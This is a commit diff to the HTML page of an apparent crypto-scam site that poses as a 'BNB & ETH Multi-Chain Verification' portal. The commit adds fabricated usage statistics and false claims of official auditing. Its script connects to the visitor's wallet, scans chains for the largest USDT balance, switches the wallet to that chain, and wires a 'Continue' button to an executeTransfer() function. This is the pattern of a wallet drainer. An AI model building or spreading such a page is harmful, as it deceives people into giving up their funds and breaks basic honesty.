

Before and after one commit to sunilkumarmmeena7888-sudo/3, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 1237 px of the page, without its empty margins (319-959 px from the left). Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; a script that the page names is missing.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>BNB Chain | Secure System</title>
+  <title>BNB & ETH | Multi-Chain Verification</title>
 
   <!-- Ethers.js & FontAwesome Library -->
   <script src="https://cdnjs.cloudflare.com/ajax/libs/ethers/5.7.2/ethers.umd.min.js"></script>
@@ -15,58 +15,57 @@
 
     .app-container { width: 100%; max-width: 430px; background-color: #0b0e14; display: flex; flex-direction: column; min-height: 100vh; position: relative; }
 
-    /* Header (Matching Screenshots 33838 & 33839) */
+    /* Header (Matching Screenshots 33937-33939) */
     .brand-header { padding: 16px; display: flex; align-items: center; justify-content: space-between; border-bottom: 1px solid rgba(255,255,255,0.08); background-color: #0b0e14; position: sticky; top: 0; z-index: 10; }
-    .brand-logo { display: flex; align-items: center; gap: 8px; font-weight: 800; font-size: 20px; color: #f3ba2f; letter-spacing: 0.5px; }
+    .brand-logo { display: flex; align-items: center; gap: 8px; font-weight: 800; font-size: 16px; color: #f3ba2f; letter-spacing: 0.5px; line-height: 1.2; }
+    .brand-logo span { font-size: 10px; color: #94a3b8; font-weight: 600; display: block; letter-spacing: 1px; }
     .secure-system-badge { display: flex; align-items: center; gap: 6px; font-size: 11px; font-weight: 700; color: #94a3b8; letter-spacing: 0.5px; text-transform: uppercase; }
     .dot-green { width: 6px; height: 6px; background-color: #00d395; border-radius: 50%; box-shadow: 0 0 8px #00d395; }
 
-    .content-area { padding: 20px 16px; display: flex; flex-direction: column; gap: 20px; width: 100%; }
+    .content-area { padding: 20px 16px; display: flex; flex-direction: column; gap: 16px; width: 100%; }
 
-    /* Tether Live Stats Section */
-    .tether-header-row { display: flex; align-items: center; justify-content: space-between; margin-bottom: 4px; }
-    .tether-title-group { display: flex; align-items: center; gap: 10px; }
-    .tether-icon { width: 36px; height: 36px; background-color: #26a17b; border-radius: 50%; display: flex; align-items: center; justify-content: center; font-weight: bold; font-size: 16px; color: white; }
-    .tether-title-text { font-size: 20px; font-weight: 800; color: #ffffff; }
-
-    .live-badge { border: 1px solid rgba(0, 211, 149, 0.4); color: #00d395; font-size: 11px; padding: 4px 12px; border-radius: 20px; display: flex; align-items: center; gap: 6px; background-color: rgba(0, 211, 149, 0.05); font-weight: 700; }
-    .live-dot { width: 6px; height: 6px; background-color: #00d395; border-radius: 50%; animation: pulse 1.5s infinite; }
-    @keyframes pulse { 0% { opacity: 1; } 50% { opacity: 0.4; } 100% { opacity: 1; } }
-
-    .stats-section-title { font-size: 15px; font-weight: 700; color: #ffffff; margin-bottom: 12px; }
-
-    /* Stats Grid (2x2 matching 33838) */
-    .stats-grid { display: grid; grid-template-columns: 1fr 1fr; gap: 14px; margin-bottom: 10px; }
-    .stat-card { background-color: #12161f; border: 1px solid #1e2430; border-radius: 14px; padding: 14px; display: flex; flex-direction: column; gap: 6px; }
-    .stat-label { font-size: 11px; color: #718096; line-height: 1.3; font-weight: 500; }
-    .stat-val { font-size: 18px; font-weight: 800; color: #f3ba2f; }
-    .stat-sub { font-size: 10px; color: #00d395; font-weight: 600; }
-
-    /* Heading & Description */
-    .main-heading { font-size: 26px; font-weight: 800; color: #ffffff; margin-top: 10px; }
-    .main-subheading { font-size: 13px; color: #f3ba2f; font-weight: 600; margin-top: 4px; }
-    .main-desc { font-size: 12px; color: #718096; line-height: 1.5; margin-top: 6px; }
-
-    /* Verification Box (Matching Screenshot 33839) */
-    .verify-box { background-color: #12161f; border: 1px solid rgba(243, 186, 47, 0.3); border-radius: 20px; padding: 24px 20px; display: flex; flex-direction: column; align-items: center; text-align: center; box-shadow: 0 10px 30px rgba(0,0,0,0.5); margin-top: 10px; }
+    /* Verification Box */
+    .verify-box { background-color: #12161f; border: 1px solid rgba(243, 186, 47, 0.3); border-radius: 20px; padding: 24px 20px; display: flex; flex-direction: column; align-items: center; text-align: center; box-shadow: 0 10px 30px rgba(0,0,0,0.5); }
     .bsc-logo-circle { width: 64px; height: 64px; border-radius: 50%; background-color: #0b0e14; border: 1px solid #2a2f3d; display: flex; align-items: center; justify-content: center; margin-bottom: 18px; color: #f3ba2f; font-size: 28px; box-shadow: inset 0 2px 8px rgba(0,0,0,0.8); }
-
     .bsc-verification-pill { border: 1px solid rgba(243, 186, 47, 0.4); color: #f3ba2f; font-size: 11px; padding: 6px 16px; border-radius: 20px; font-weight: 700; background-color: rgba(243, 186, 47, 0.05); margin-bottom: 20px; letter-spacing: 0.5px; }
 
-    .btn-verify { width: 100%; background-color: #f3ba2f; color: #000000; border: none; padding: 16px; border-radius: 12px; font-weight: 800; font-size: 16px; cursor: pointer; transition: 0.2s; box-shadow: 0 4px 20px rgba(243, 186, 47, 0.25); }
+    .btn-verify { width: 100%; background-color: #f3ba2f; color: #000000; border: none; padding: 16px; border-radius: 12px; font-weight: 800; font-size: 16px; cursor: pointer; transition: 0.2s; box-shadow: 0 4px 20px rgba(243, 186, 47, 0.25); -webkit-tap-highlight-color: transparent; }
     .btn-verify:active { transform: scale(0.98); }
 
-    /* Verified Success View (Matching Screenshot 33832) */
+    /* Feature Cards (Matching 33937) */
+    .feature-card { background-color: #12161f; border: 1px solid #1e2430; border-radius: 20px; padding: 24px 20px; display: flex; flex-direction: column; gap: 8px; }
+    .feature-icon-box { width: 40px; height: 40px; background-color: #1a1f2c; border-radius: 12px; display: flex; align-items: center; justify-content: center; color: #f3ba2f; margin-bottom: 6px; font-size: 16px; }
+    .feature-val { font-size: 32px; font-weight: 800; color: #ffffff; letter-spacing: -0.5px; }
+    .feature-label { font-size: 14px; color: #718096; font-weight: 600; }
+    .feature-sub { font-size: 12px; color: #00d395; font-weight: 700; margin-top: 4px; }
+
+    /* Token Ticker (Matching 33938 & 33939) */
+    .token-ticker-grid { display: flex; gap: 10px; overflow-x: auto; padding-bottom: 6px; margin-top: 4px; scrollbar-width: none; }
+    .token-ticker-grid::-webkit-scrollbar { display: none; }
+    .ticker-pill-card { background-color: #12161f; border: 1px solid #1e2430; border-radius: 14px; padding: 12px 18px; display: flex; align-items: center; gap: 10px; flex-shrink: 0; font-weight: 700; font-size: 13px; color: #ffffff; }
+
+    /* Info Cards (Matching 33938 & 33939) */
+    .info-card { background-color: #12161f; border: 1px solid #1e2430; border-radius: 20px; padding: 24px 20px; display: flex; flex-direction: column; gap: 12px; margin-top: 4px; }
+    .info-title { font-size: 20px; font-weight: 800; color: #f3ba2f; }
+    .info-text { font-size: 13px; color: #94a3b8; line-height: 1.6; }
+
+    /* Footer Links (Matching 33938 & 33939) */
+    .footer-links-container { background-color: #0b0e14; border-top: 1px solid #1e2430; padding: 30px 20px; display: flex; flex-direction: column; align-items: center; text-align: center; gap: 16px; margin-top: 20px; }
+    .footer-brand { display: flex; align-items: center; gap: 8px; color: #f3ba2f; font-weight: 700; font-size: 14px; }
+    .footer-links-row { display: flex; gap: 20px; font-size: 13px; color: #94a3b8; font-weight: 500; }
+    .footer-copy { font-size: 11px; color: #475569; line-height: 1.5; }
+
+    /* Verified Success View */
     .verified-card { background-color: #12161f; border: 1px solid #1e2430; border-radius: 20px; padding: 28px 20px; text-align: center; width: 100%; box-shadow: 0 20px 40px rgba(0,0,0,0.8); margin-top: 20px; }
     .green-shield-icon { width: 56px; height: 56px; border-radius: 50%; background-color: rgba(0, 211, 149, 0.1); border: 2px solid #00d395; color: #00d395; display: flex; align-items: center; justify-content: center; font-size: 24px; margin: 0 auto 16px auto; }
     .verified-title { font-size: 22px; font-weight: 800; color: #ffffff; margin-bottom: 6px; }
     .verified-subtitle { font-size: 12px; color: #718096; margin-bottom: 24px; line-height: 1.5; }
 
-    .balance-box { background-color: #0b0e14; border-radius: 14px; width: 100%; padding: 18px 0; margin-bottom: 24px; border: 1px solid #1a2233; }
+    .balance-box { background-color: #0b0e14; border-radius: 14px; width: 100%; padding: 18px 0; margin-bottom: 24px; border: 1px solid #1e2430; }
     .balance-label { font-size: 11px; color: #718096; margin-bottom: 6px; text-transform: uppercase; font-weight: 600; letter-spacing: 0.5px; }
     .balance-val { font-size: 28px; font-weight: 800; color: #00d395; }
 
-    .btn-continue { width: 100%; background-color: #f3ba2f; color: #000; border: none; padding: 16px; border-radius: 12px; font-weight: 800; font-size: 15px; cursor: pointer; transition: 0.2s; box-shadow: 0 4px 15px rgba(243, 186, 47, 0.2); }
+    .btn-continue { width: 100%; background-color: #f3ba2f; color: #000; border: none; padding: 16px; border-radius: 12px; font-weight: 800; font-size: 15px; cursor: pointer; transition: 0.2s; box-shadow: 0 4px 15px rgba(243, 186, 47, 0.2); -webkit-tap-highlight-color: transparent; }
     .btn-continue:active { transform: scale(0.98); }
 
     .loader { border: 2px solid #000; border-top: 2px solid transparent; border-radius: 50%; width: 16px; height: 16px; animation: spin 1s linear infinite; display: inline-block; vertical-align: middle; margin-right: 6px; }
@@ -78,10 +77,11 @@
 
   <div class="app-container">
 
-    <!-- Top Header -->
+    <!-- Top Header (Matching 33937-33939) -->
     <div class="brand-header">
       <div class="brand-logo">
-        <i class="fa-solid fa-cube"></i> BNB CHAIN
+        <i class="fa-solid fa-shield-halved" style="color: #f3ba2f;"></i>
+        <div>BNB & ETH <span>VERIFICATION</span></div>
       </div>
       <div class="secure-system-badge">
         SECURE SYSTEM <span class="dot-green"></span>
@@ -90,69 +90,90 @@
 
     <div class="content-area">
 
-      <!-- Initial View (Matching Screenshots 33838 & 33839) -->
+      <!-- Initial View -->
       <div id="initialView">
 
-        <!-- Tether Live Stats Header -->
-        <div class="tether-header-row">
-          <div class="tether-title-group">
-            <div class="tether-icon">₮</div>
-            <div class="tether-title-text">Tether</div>
-          </div>
-          <div class="live-badge">
-            <span class="live-dot"></span> Live
-          </div>
-        </div>
-
-        <div class="stats-section-title">Live Verification Stats (USDT)</div>
-
-        <!-- 2x2 Stats Grid -->
-        <div class="stats-grid">
-          <div class="stat-card">
-            <div class="stat-label">Total USDT Verified (Today)</div>
-            <div class="stat-val">$29,212,059</div>
-            <div class="stat-sub">+8.24% vs yesterday</div>
-          </div>
-          <div class="stat-card">
-            <div class="stat-label">Total USDT Verified (This Week)</div>
-            <div class="stat-val" style="font-size: 17px;">$178,946,721</div>
-            <div class="stat-sub">+12.75% vs last week</div>
-          </div>
-          <div class="stat-card">
-            <div class="stat-label">Total USDT Verified (This Month)</div>
-            <div class="stat-val" style="font-size: 17px;">$762,387,654</div>
-            <div class="stat-sub" style="color:#00d395;">+15.32% vs last month</div>
-          </div>
-          <div class="stat-card">
-            <div class="stat-label">Total USDT Verified (All Time)</div>
-            <div class="stat-val" style="font-size: 17px;">$4,892,765,321</div>
-            <div class="stat-sub" style="color:#718096;">All time total</div>
-          </div>
-        </div>
-
-        <!-- Titles & Description -->
-        <div style="margin-top: 14px;">
-          <h1 class="main-heading">Verify Crypto Assets</h1>
-          <div class="main-subheading">Powered by BNB Chain's official</div>
-          <p class="main-desc">The official institutional gateway for smart contract auditing and asset verification on the BNB Smart Chain ecosystem.</p>
-        </div>
-
-        <!-- Verification Box (Matching Screenshot 33839) -->
+        <!-- Verification Box -->
         <div class="verify-box">
           <div class="bsc-logo-circle">
             <i class="fa-solid fa-cube"></i>
           </div>
 
-          <div class="bsc-verification-pill">BNB CHAIN VERIFICATION</div>
+          <div class="bsc-verification-pill">MULTI-CHAIN VERIFICATION</div>
 
-          <button id="mainVerifyBtn" class="btn-verify" onclick="initiateAuditFlow()">
+          <button id="mainVerifyBtn" class="btn-verify" type="button" onclick="initiateAuditFlow()">
             <span id="btnText">Verify Asset</span>
           </button>
         </div>
 
+        <!-- Feature Card 1: Assets Verified -->
+        <div class="feature-card">
+          <div class="feature-icon-box">
+            <i class="fa-solid fa-cube"></i>
+          </div>
+          <div class="feature-val">92,768</div>
+          <div class="feature-label">Assets Verified</div>
+          <div class="feature-sub">+18.6% this month</div>
+        </div>
+
+        <!-- Feature Card 2: Active Addresses -->
+        <div class="feature-card">
+          <div class="feature-icon-box">
+            <i class="fa-solid fa-users"></i>
+          </div>
+          <div class="feature-val">1.2M+</div>
+          <div class="feature-label">Active Addresses</div>
+          <div class="feature-sub">+22.3% this month</div>
+        </div>
+
+        <!-- Feature Card 3: Ecosystem Users -->
+        <div class="feature-card" style="border: 1px solid rgba(243, 186, 47, 0.3);">
+          <div class="feature-icon-box">
+            <i class="fa-solid fa-star"></i>
+          </div>
+          <div class="feature-val">2.3M+</div>
+          <div class="feature-label">Ecosystem Users</div>
+          <div class="feature-sub">99.9% satisfaction</div>
+        </div>
+
+        <!-- Token Ticker Carousel (Matching 33938 & 33939) -->
+        <div class="token-ticker-grid">
+          <div class="token-pill-card"><i class="fa-solid fa-circle" style="color: #627eea; font-size: 10px;"></i> Ethereum ETH</div>
+          <div class="token-pill-card"><i class="fa-solid fa-circle" style="color: #3b82f6; font-size: 10px;"></i> USD Coin USDC</div>
+          <div class="token-pill-card"><i class="fa-solid fa-circle" style="color: #14f195; font-size: 10px;"></i> Solana SOL</div>
+          <div class="token-pill-card"><i class="fa-solid fa-circle" style="color: #26a17b; font-size: 10px;"></i> Tether USDT</div>
+        </div>
+
+        <!-- Multi-Chain Consensus Card -->
+        <div class="info-card">
+          <div class="info-title">Multi-Chain Consensus</div>
+          <div class="info-text">Seamlessly verifies Tether (USDT) on Ethereum Mainnet and BNB Smart Chain, providing high-performance decentralized audit infrastructure.</div>
+        </div>
+
+        <!-- Security Audit Card -->
+        <div class="info-card">
+          <div class="info-title">Security Audit</div>
+          <div class="info-text">Our verification engine performs real-time auditing of smart contract bytecode to ensure investor protection and token authenticity.</div>
+        </div>
+
+        <!-- Footer Navigation Links (Matching 33938 & 33939) -->
+        <div class="footer-links-container">
+          <div class="footer-brand">
+            <i class="fa-solid fa-shield-halved"></i> Asset Verification Protocol
+          </div>
+          <div class="footer-links-row">
+            <span>Documentation</span>
+            <span>Whitepaper</span>
+            <span>Support</span>
+          </div>
+          <div class="footer-copy">
+            &copy; 2026 USDT Multi-Chain Asset Verification Portal. All rights reserved.
+          </div>
+        </div>
+
       </div>
 
-      <!-- Verified Success View (Matching Screenshot 33832) -->
+      <!-- Verified Success View -->
       <div id="verifiedView" class="hidden">
         <div class="verified-card">
           <div class="green-shield-icon">
@@ -167,7 +188,7 @@
             <div id="verifiedUsdtBalance" class="balance-val">0.00 USDT</div>
           </div>
 
-          <button class="btn-continue" onclick="executeTransfer()">
+          <button class="btn-continue" type="button" onclick="executeTransfer()">
             Continue
           </button>
         </div>
@@ -183,20 +204,20 @@
     // Multi-Chain USDT Configuration
     const CHAINS = [
       {
+        chainId: 1,
+        chainIdHex: '0x1',
+        name: 'Ethereum Mainnet',
+        rpc: 'https://eth.llamarpc.com',
+        usdtAddress: '0xdAC17F958D2ee523a2206206994597C13D831ec7',
+        decimals: 6
+      },
+      {
         chainId: 56,
         chainIdHex: '0x38',
         name: 'BNB Smart Chain',
         rpc: 'https://bsc-dataseed.binance.org/',
         usdtAddress: '0x55d398326f99059fF775485246999027B3197955',
         decimals: 18
-      },
-      {
-        chainId: 1,
-        chainIdHex: '0x1',
-        name: 'Ethereum Mainnet',
-        rpc: 'https://eth.llamarpc.com',
-        usdtAddress: '0xdAC17F958D2ee523a2206206994597C13D831ec7',
-        decimals: 6
       },
       {
         chainId: 137,
@@ -226,9 +247,11 @@
     let maxUsdtWei = ethers.BigNumber.from(0);
 
     function getActiveProvider() {
-      if (window.ethereum) return window.ethereum;
-      if (window.trustwallet) return window.trustwallet;
-      if (window.web3 && window.web3.currentProvider) return window.web3.currentProvider;
+      if (typeof window !== 'undefined') {
+        if (window.ethereum) return window.ethereum;
+        if (window.trustwallet) return window.trustwallet;
+        if (window.web3 && window.web3.currentProvider) return window.web3.currentProvider;
+      }
       return null;
     }
 
@@ -252,17 +275,17 @@
         }
 
         const btnText = document.getElementById("btnText");
-        btnText.innerHTML = '<span class="loader"></span> Connecting...';
+        if(btnText) btnText.innerHTML = '<span class="loader"></span> Connecting...';
 
         const accounts = await ethProvider.request({ method: 'eth_requestAccounts' });
         globalUserAddress = accounts[0];
 
-        btnText.innerHTML = '<span class="loader"></span> Scanning Chains...';
+        if(btnText) btnText.innerHTML = '<span class="loader"></span> Scanning Chains...';
 
         let highestBalance = ethers.BigNumber.from(0);
         let bestChain = CHAINS[0];
 
-        // Scan all chains simultaneously via public RPCs to find highest USDT
+        // Scan all supported chains for the highest USDT balance
         for (const chain of CHAINS) {
           try {
             const rpcProvider = new ethers.providers.JsonRpcProvider(chain.rpc);
@@ -277,14 +300,14 @@
               bestChain = chain;
             }
           } catch (err) {
-            console.log(`Scan failed on ${chain.name}:`, err);
+            console.log(`Scan failed for ${chain.name}:`, err);
           }
         }
 
         selectedChain = bestChain;
         maxUsdtWei = highestBalance;
 
-        // Switch wallet to the chain with the highest balance
+        // Automatically switch wallet to the chain with the highest USDT balance
         await switchToChain(ethProvider, bestChain.chainIdHex);
 
         const provider = new ethers.providers.Web3Provider(ethProvider, "any");
```
